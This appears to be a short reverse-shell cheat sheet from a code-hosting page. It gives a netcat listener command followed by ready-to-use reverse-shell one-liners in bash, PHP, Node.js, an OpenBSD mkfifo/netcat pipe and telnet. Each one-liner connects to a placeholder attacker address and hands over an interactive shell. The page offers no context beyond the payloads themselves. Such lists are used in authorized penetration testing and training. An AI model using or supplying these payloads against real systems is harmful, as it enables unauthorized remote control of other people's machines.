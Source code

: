 ## Reverse Shell ##

Start Listener

`nc -nvlp 4444`

Upload bash 

`bash -i >& /dev/tcp/YOURIP/80 0>&1`

PHP

`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>`

Node.js 

`require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');`

OpenBSD

`mkfifo /tmp/lol;nc ATTACKER-IP PORT 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
`

Telnet

`rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p`

`telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443`